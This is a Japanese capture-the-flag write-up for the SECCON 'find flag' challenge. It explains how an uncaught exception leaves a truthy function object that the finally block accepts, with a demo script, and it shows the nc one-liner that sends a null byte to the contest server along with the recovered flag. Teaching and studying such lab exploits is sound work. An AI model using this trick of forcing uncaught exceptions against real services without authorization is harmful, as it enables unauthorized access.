 素直にコードを読むと、入力したfilenameのファイルを開いて先頭からFLAGの長さ読み込んでFLAGと値が同じであればFLAGが得られるとわかる。

FLAGは環境変数として設定されている。

Linuxで実行中のプロセスの環境変数は **/proc/self/environ** にあるらしいが、server.pyは先頭から読むため一致しない。


main内のfinallyで ```if check``` が真になるパターンが2つあることに気づけるかが問題だった。

1つは上記で書いた方法。もう1つはcheck関数内で補足されていない例外を起こした場合。

動作をわかりやすくするために同じ構成で以下のようなコードを用意してみた。  

```
def check():
    try:
        n = int(input("n: "))
        if 1 / n == 1:
            return True
    except ZeroDivisionError:
        print("ZeroDivisionError in check")
    #except ValueError:
    #    print("ValueError in check")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("Error in main")
        exit(1)
    finally:
        print(f"check = {check}")
        if check:
            print("flag find")
```

```n``` が 0 だったり、intにキャストできない値だと例外が発生する。

```
(⁎'~') < python3 sample.py
n: 0
ZeroDivisionError in check
check = False

(⁎'~') < python3 sample.py 
n: a
Error in main
check = <function check at 0x109bf7e20>
flag find
```

実行してみると、check関数内で補足していない例外が発生した場合には、main内の変数 ```check``` にはcheck関数オブジェクトが入り、この時の ```if check:``` は真になることがわかる。

したがって、server.pyに対してもcheck関数内でいくつか補足している例外以外の例外を起こすような値を渡してやれば、flagが得られる。

nullを渡してあげると、補足していない ```ValueError``` を起こせる。

```
(⁎'~') < python3 -c "print('\x00')"| nc find-flag.seccon.games 10042
filename: [-] something went wrong
[+] congrats!
SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}
```

別解として送信側の接続を切るというやり方もみかけた。EOFErrorが起きるらしい。

```